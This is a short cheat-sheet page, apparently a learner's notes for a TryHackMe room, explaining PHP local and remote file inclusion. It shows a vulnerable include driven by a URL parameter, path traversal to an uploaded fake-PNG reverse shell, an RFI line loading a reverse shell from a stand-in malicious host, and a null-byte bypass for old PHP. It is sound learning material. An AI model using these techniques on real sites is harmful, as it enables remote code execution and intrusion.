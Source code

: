 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Files inclusion refers to websites that are importing or executing a file using the user input. 

* 🥡 An include in PHP using the user input
* 🎁 A download URL using the user input
* ...

If the input is not filtered, a hacker may access/inject/download arbitrary content using [Path traversal](traversal.md).
</div><div>

**Example** 🔥: if there is a vulnerable backup plugin allowing us to download sensitive file, this is a file inclusion vulnerability.

There are two categories of file inclusion

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file
</div></div>

<hr class="sep-both">

## PHP include file inclusion

<div class="row row-cols-md-2"><div>

The website `http://vulnerable.site/?lang=FR` is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

The import is not filtered, we can use [Path traversal](traversal.md) to include a malicious file, such as one we uploaded using another attack.

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png"
```
</div><div>

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```

**Additional notes**:

* The **null byte `%00`** could be used in **PHP < 5.3.4** to ignore trailing extensions such as `.php` below:

```php
include "xxx.cgi%00.php" // include xxx.cgi
```
</div></div>